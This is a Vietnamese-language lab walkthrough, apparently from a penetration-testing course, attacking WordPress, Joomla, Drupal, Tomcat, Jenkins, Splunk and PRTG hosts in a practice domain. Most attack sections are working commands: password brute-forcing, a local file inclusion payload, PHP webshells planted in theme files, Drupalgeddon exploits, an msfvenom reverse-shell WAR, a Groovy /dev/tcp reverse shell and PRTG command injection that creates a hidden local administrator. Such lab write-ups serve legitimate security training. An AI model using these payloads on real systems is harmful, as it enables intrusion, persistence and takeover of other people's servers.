


# Application Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`
- `dev.inlanefreight.local`
- `drupal-dev.inlanefreight.local`
- `drupal-qa.inlanefreight.local`
- `drupal-acc.inlanefreight.local`
- `drupal.inlanefreight.local`
- `blog.inlanefreight.local`

+ 0  Use what you've learned from this section to generate a report with EyeWitness. What is the name of the .db file EyeWitness creates in the inlanefreight_eyewitness folder? (Format: filename.db)

+ 0  What does the header on the title page say when opening the aquatone_report.html page with a web browser? (Format: 3 words, case sensitive)

Thêm scope vào `/etc/hosts`

```zsh
cat scope_list.txt                                           
app.inlanefreight.local
dev.inlanefreight.local
drupal-dev.inlanefreight.local
drupal-qa.inlanefreight.local
drupal-acc.inlanefreight.local
drupal.inlanefreight.local
blog.inlanefreight.local
```

```zsh
echo 10.129.42.195 $(paste -sd ' ' scope_list.txt) | sudo tee -a /etc/hosts
10.129.42.195 app.inlanefreight.local dev.inlanefreight.local drupal-dev.inlanefreight.local drupal-qa.inlanefreight.local drupal-acc.inlanefreight.local drupal.inlanefreight.local blog.inlanefreight.local
```

Quét scope với nmap

```zsh
mkdir nmap; cd nmap
sudo nmap -p 80,443,8000,8080,8180,8888,10000 --open -oA web_discovery -iL ../scope_list.txt -vv
```

Chụp màn hình với `eyewitness`

```zsh
eyewitness --web -x web_discovery.xml -d inlanefreight_eyewitness
```

Như vậy eyewitness sẽ tạo một file `.db` là `ew.db`


Chạy `aquatone`

```zsh
cat web_discovery.xml | /opt/aquatone -nmap
```

`Pages by Similarity`


# WordPress - Discovery & Enumeration

#### Questions
+ 0  Enumerate the host and find a flag.txt flag in an accessible directory.

```zsh
wpscan --url http://blog.inlanefreight.local -e --api-token Tg......
```

```zsh
[+] Upload directory has listing enabled: http://blog.inlanefreight.local/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
```


+ 0  Perform manual enumeration to discover another installed plugin. Submit the plugin name as the answer (3 words).

Truy cập vào bài viết đầu tiên: `http://blog.inlanefreight.local/?p=1`

Xem nguồn trang và thấy có plugin sau:


+ 0  Find the version number of this plugin. (i.e., 4.5.2)

Truy cập vào: http://blog.inlanefreight.local/wp-content/plugins/wp-sitemap-page/readme.txt


# Attacking WordPress

#### Questions
vHosts needed for these questions:

- `blog.inlanefreight.local`

+ 0  Perform user enumeration against http://blog.inlanefreight.local. Aside from admin, what is the other user present?

```zsh
[i] User(s) Identified:

[+] by:
                                                                        admin
 | Found By: Author Posts - Display Name (Passive Detection)

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] doug
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

```

+ 0  Perform a login bruteforcing attack against the discovered user. Submit the user's password as the answer.

```zsh
wpscan --password-attack xmlrpc -t 20 -U doug -P /usr/share/wordlists/rockyou.txt --url http://blog.inlanefreight.local
```

+ 0  Using the methods shown in this section, find another system user whose login shell is set to /bin/bash.


Payload:

```url
http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
```


```zsh
webadmin:x:1001:1001::/home/webadmin:/bin/bash
mrb3n:x:1002:1002::/home/mrb3n:/bin/sh
```

+ 0  Following the steps in this section, obtain code execution on the host and submit the contents of the flag.txt file in the webroot.

Đăng nhập với người dùng `douge` tại `/wp-login.php`

Truy cập vào `Theme Editor`


Chọn theme khác có trang 404.php, ở đây tôi dùng `Twenty Nineteen`


Thêm phần này vào đầu file:

```php
system($_GET['cmd']);
```


Sau đó payload sẽ là:

```url
view-source:http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php?cmd=cat%20../../../flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

# Joomla - Discovery & Enumeration

#### Questions

vHosts needed for these questions:

- `app.inlanefreight.local`

+ 0  Fingerprint the Joomla version in use on http://app.inlanefreight.local (Format: x.x.x)

```zsh
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml                                                    
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2019 Open Source Matters, Inc.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>3.10.0</version>
        <creationDate>August 2021</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>
```

+ 0  Find the password for the admin user on http://app.inlanefreight.local

```zsh
sudo python3 /opt/joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
 admin:turnkey
```

# Attacking Joomla

#### Questions
vHosts needed for these questions:

- `dev.inlanefreight.local`

+ 0  Leverage the directory traversal vulnerability to find a flag in the web root of the http://dev.inlanefreight.local/ Joomla application

Đăng nhập với `admin:admin`


Truy cập vào `http://dev.inlanefreight.local/administrator/index.php?option=com_plugins&view=plugins`

Disable tiện ích này đi:


Chọn `Templates` -> `Templates` -> Template đang dùng (Được đánh dấu sao ở mục Style)


Tôi sẽ sửa file `error.php`


```zsh
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?e3c230597dc6f83fd9b03394c053c91b=cat%20../../flag_6470e394cbf6dab6a91682cc8585059b.txt 
j00mla_c0re_d1rtrav3rsal!
```

# Drupal - Discovery & Enumeration
#### Questions
vHosts needed for these questions:

- `drupal.inlanefreight.local`
- `drupal-qa.inlanefreight.local`

+ 0  Identify the Drupal version number in use on http://drupal-qa.inlanefreight.local

Truy cập vào `http://drupal-qa.inlanefreight.local/CHANGELOG.txt`



# Attacking Drupal

#### Questions
vHosts needed for these questions:

- `drupal-qa.inlanefreight.local`
- `drupal-dev.inlanefreight.local`

+ 0  Work through all of the examples in this section and gain RCE multiple ways via the various Drupal instances on the target host. When you are done, submit the contents of the flag.txt file in the /var/www/drupal.inlanefreight.local directory.

Chúng ta biết được rằng phiên bản này là 7.30, một phiên bản drupal khá cũ, vậy hãy thử khai thác RCE bằng nhiều cách.
### Leveraging the PHP Filter Module

Đăng nhập với thông tin xác thực: `admin:admin`

Tại `modules`, kiểm tra xem liệu `PHP filter` đã được bật hay chưa, nếu chưa hãy enable module này và save configuration.


Chọn `Add content` -> `Basic page`


Tạo trang mới có chứa payload:


Và chúng ta có RCE:


Lụm cái flag:

```
http://drupal-qa.inlanefreight.local/node/3?93280687b2335b45acb180ce9340cb2f=cat%20../drupal.inlanefreight.local/flag_6470e394cbf6dab6a91682cc8585059b.txt
```

### Uploading a Backdoored Module

Chúng ta sẽ upload một module độc hại nhằm thực thi mã từ xa.

Trước hết tải xuống một module từ trang chủ:

```zsh
wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
```

Giải nén ra và đổi tên:

```zsh
tar xvf <filename>

mv <foldername> capcha
```


Tạo file payload `shell.php`


Tạo file `.htaccess`

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

Tiến hành nén lại thành module

```zsh
mv .htaccess shell.php capcha

tar cvf capcha.tar.gz capcha
```


Do phiên bản của `drupal-qa.inlanefreight.local` không có mục uploads module hoặc tôi không tìm thấy :v nên tôi sẽ thử với `drupal-dev` cũng không có luôn :v

#### Drupalgeddon

Tạo tài khoản với quyền admin:

```zsh
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u PuddingSudo -p password
```


#### Drupalgeddon2


Chúng ta upload một file .php


#### Drupalgeddon3

Tải xuống exploit từ exploitdb, di chuyển nó vào modules của metasploit:

```zsh
sudo mv 44557.rb /usr/share/metasploit-framework/modules/exploits/multi/http/drupal_drupageddon3.rb
```

Reload lại modules

```zsh
sudo msfconsole -q

msf6 > reload_all
```

Tiến hành khai thác:

Drupal_SESSION sẽ là cookie của chúng ta khi đăng nhập với quyền admin


```zsh
use exploit/multi/http/drupal_drupageddon3

msf6 exploit(multi/http/drupal_drupageddon3) > set lhost tun0
lhost => tun0
msf6 exploit(multi/http/drupal_drupageddon3) > set rhosts 10.129.82.231
msf6 exploit(multi/http/drupal_drupageddon3) > set vhost drupal-qa.inlanefreight.local
vhost => drupal-dev.inlanefreight.local
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_node 1
drupal_node => 1
msf6 exploit(multi/http/drupal_drupageddon3) > set drupal_session SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo
drupal_session => SESS1870755745b9b67ba28e06f87f264552=CSIX0eFiI6rkGucfgtKoo3DYZZBT6cqYRNd8xFJDpJo

```


# Tomcat - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `app-dev.inlanefreight.local`
- `web01.inlanefreight.local`

+ 0  What version of Tomcat is running on the application located at http://web01.inlanefreight.local:8180?

Truy cập vào `http://web01.inlanefreight.local:8180/docs/`


+ 0  What role does the admin user have in the configuration example?


# Attacking Tomcat

#### Questions
vHosts needed for these questions:

- `web01.inlanefreight.local`

+ 0  Perform a login bruteforcing attack against Tomcat manager at http://web01.inlanefreight.local:8180. What is the valid username?

Chọn module brute force:


Tôi sẽ set thêm proxy thông qua `burp` để có thể thử thêm bruteforce với burpsuite

```zsh
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.129.201.58
rhosts => 10.129.201.58
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set vhost web01.inlanefreight.local
vhost => web01.inlanefreight.local
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rport 8180
rport => 8081
msf6 auxiliary(scanner/http/tomcat_mgr_login) > set proxies HTTP:127.0.0.1:8080
proxies => HTTP:127.0.0.1:8080
```

```zsh
[+] 10.129.201.58:8180 - Login Successful: tomcat:root
```

+ 0  What is the password?

BruteForce với Burpsuite Pro:

Như ở trên tôi đã bật sẵn burpsuite và giữ lại request mà msf đã gửi đi.


Gửi nó tới `intruder`. Ở đây theo như mặc định có 2 file username và password. Tuy nhiên tôi không muốn gộp chúng lại thành một và sau đó mã hóa base64 nên tôi chọn option `clusted bomb attack`
và thêm sẵn 2 biến để fuzz:


Tại payload position 2, chúng ta chọn `tomcat_mgr_default_pass.txt`



Tại payload position 1, chúng ta chọn `tomcat_mgr_default_users.txt`


Tuy nhiên định dạng đúng phải là `username:password`, vậy tôi sẽ thêm rule cho username bằng cách chọn payload postion 1 -> thêm kí tự `:` ở cuối username (add suffix), sau đó mã hóa base64.


Bỏ chọn encoding


Đối với `password` ta chọn `payload position 2` sau đó chỉ việc thêm rule base64 encode. 


Bỏ chọn encoding


Tuy nhiên cách này không thành công vì chúng ta buộc phải encode một chuỗi liền nhau, nếu không kết quả sẽ như này: `dG9tY2F0Og==YWRtaW4=`. Do đó buộc ta phải gộp lại thành một danh sách tách nhau bởi `:` với burpsuite hoặc `python` hoặc `bash`.

Chuyển sang `sniper attack`


Chọn payload type là `custom iterator`, position 1 load file username:


Thêm dấu `:` ngăn cách với password


Tại position 2, load file password:


Cuối cùng, thêm rule encode base64, nhớ bỏ chọn url encode ở cuối


Mặc định base64 encode của burp suite sẽ tự thêm kí tự newline, hãy cẩn thận.

+ 1  Obtain remote code execution on the http://web01.inlanefreight.local:8180 Tomcat instance. Find and submit the contents of tomcat_flag.txt

Tạo payload

```zsh
msfvenom -p java/jsp_shell_reverse_tcp lhost=tun0 lport=4444 -f war -o 28afbc9529a8855939ff7d2d8ad9295c.war
```

Đăng nhập với `tomcat:root`

Tải shell lên tomcat


Cấu hình trên msfconsole

```zsh
msf6 exploit(multi/handler) > set lhost tun0 
lhost => tun0
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set payload java/jsp_shell_reverse_tcp 
payload => java/jsp_shell_reverse_tcp
msf6 exploit(multi/handler) > run
```

Lấy shell


# Jenkins - Discovery & Enumeration

#### Questions
vHosts needed for these questions:

- `jenkins.inlanefreight.local`

 Authenticate to  with user "admin" and password "admin"

+ 1  Log in to the Jenkins instance at http://jenkins.inlanefreight.local:8000. Browse around and submit the version number when you are ready to move on.


# Attacking Jenkins

#### Questions
vHosts needed for these questions:

- `jenkins.inlanefreight.local`

+ 0  Attack the Jenkins target and gain remote code execution. Submit the contents of the flag.txt file in the /var/lib/jenkins3 directory

Chạy đoạn mã sau: trong `http://jenkins.inlanefreight.local:8000/script`

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.66/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


# Splunk - Discovery & Enumeration

#### Questions
+ 0  Enumerate the Splunk instance as an unauthenticated user. Submit the version number to move on (format 1.2.3).

Quét host với nmap:

```zsh
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Truy cập vào `https://10.129.201.50:8089/`


# Attacking Splunk

#### Questions
+ 0  Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory.

Chỉnh IP và port trong run.ps1 nếu là windows, rev.py nếu là linux


Chỉnh để tắt rev.py vì host là windows


Nén file lại và tải lên

```zsh
tar cvzf 28afbc9529a8855939ff7d2d8ad9295c.tar.gz reverse_shell_splunk 
reverse_shell_splunk/
reverse_shell_splunk/bin/
reverse_shell_splunk/bin/run.ps1
reverse_shell_splunk/bin/run.bat
reverse_shell_splunk/bin/rev.py
reverse_shell_splunk/default/
reverse_shell_splunk/default/inputs.conf
```

Truy cập `https://10.129.201.50:8000/en-US/app/launcher/home`

Chọn Manage Apps (Góc bên trái) -> Install app from file


Tải file lên và nhận shell


# PRTG Network Monitor

#### Questions
+ 1  What version of PRTG is running on the target?

```zsh
sudo nmap -sV 10.129.201.50 -vv
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8000/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
8080/tcp open  http          syn-ack ttl 127 Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
8089/tcp open  ssl/http      syn-ack ttl 127 Splunkd httpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Như vậy PRTG đang chạy ở port 8080

Truy cập vào trang chủ và view source


+ 0  Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.

Đăng nhập với thông tin `prtgadmin:Password123`


Chọn Setup -> Account Settings -> Notifications -> Add new notification


Đặt tên cho thông báo, cuộn xuống và đánh dấu vào ô bên cạnh `EXECUTE PROGRAM`. Bên dưới `Program File`, chọn `Demo exe notification - outfile.ps1`từ danh sách. Cuối cùng, trong trường tham số, nhập lệnh. Tôi sẽ thêm người dùng quản trị cục bộ mới bằng cách nhập `test.txt;net user SoraTsumi Pwned_by_SoraTsum1! /add;net localgroup administrators SoraTsumi /add`. Trong quá trình đánh giá thực tế, chúng ta có thể muốn thực hiện một thao tác nào đó mà không làm thay đổi hệ thống, chẳng hạn như tạo shell ngược hoặc kết nối với C2. Cuối cùng, nhấp vào `Save`.

```powershell
test.txt;net user SoraTsumi Pwned_by_SoraTsum1! /add;net localgroup administrators SoraTsumi /add
```

Hoặc dùng powershell base64

```powershell
test.txt; powershell -encodedcommand bmV0IHVzZXIgU29yYVRzdW1pIFB3bmVkX2J5X1NvcmFUc3VtMSEgL2FkZDtuZXQgbG9jYWxncm91cCBhZG1pbmlzdHJhdG9ycyBTb3JhVHN1bWkgL2FkZAo=
```


Sau khi thêm vào nó sẽ ở đây:


Để kích hoạt payload, chúng ta phải đặt lịch chạy cho thông báo.

Trước hết phải đồng bộ thời gian với máy chủ:

```zsh
sudo ntpdate -s 10.129.201.50
```

Nếu không được ta phải canh thời gian bằng thanh thời gian bên dưới footer:


Tiếp theo, tạo một lịch chạy thông báo: Vào Account settings -> Schedules -> Add a new schedule

Đặt tên và thời gian, chọn options  `Use list of period definitions `
Đặt thời gian theo định dạng `ww:hh:mm-ww:hh:mm` định dạng thời gian là 24h không `am/pm`
Ví dụ `tu:04:05-tu:04:06`


Sau khi lưu lại nó sẽ xuất hiện ở đây:


Quay lại mục `notifications` chọn vào edit notification mà ta chèn mã độc rồi chọn lịch schedule mà ta vừa thiết lập


Chờ kết quả hoặc nhấn test notification.
### Khai thác với metasploit

```zsh
msf6 exploit(windows/http/prtg_authenticated_rce) > set admin_password Password123
admin_password => Password123
msf6 exploit(windows/http/prtg_authenticated_rce) > set lhost tun0
lhost => 10.10.14.66
msf6 exploit(windows/http/prtg_authenticated_rce) > set lport 1234
lport => 1234
msf6 exploit(windows/http/prtg_authenticated_rce) > set rhosts 10.129.201.50
rhosts => 10.129.201.50
msf6 exploit(windows/http/prtg_authenticated_rce) > set rport 8080
rport => 8080
```


Có thể có một số cách không được, chúng ta sẽ chia làm 2 notifications để tránh bị lỗi câu lệnh

Đầu tiên là thêm user mới

```powershell
C:\Users\Public\tester.txt;net user SoraTsumi SoraTsum1! /add
```


Tiếp theo là thêm vào nhóm local admin

```powershell
C:\Users\Public\tester.txt;net localgroup administrators /add SoraTsumi
```


Thiết lập schedule cho cả hai.


Lưu ý nếu payload không hoạt động hãy sử dụng tính năng test notification.

Kiểm tra sau khi chạy câu lệnh khi tôi đang có revershell từ msfconsole

```powershell
net user
```


```zsh
nxc rdp 10.129.201.50 -u SoraTsumi -p 'SoraTsum1!' --local-auth
```


Chúng ta hoàn toàn có thể lấy phiên rdp:

```zsh
xfreerdp3 /v:10.129.201.50 /u:SoraTsumi /p:'SoraTsum1!' /drive:linux,/mnt/share
```


Hoặc winrm

```zsh
evil-winrm -i 10.129.201.50 -u SoraTsumi -p 'SoraTsum1!'
```

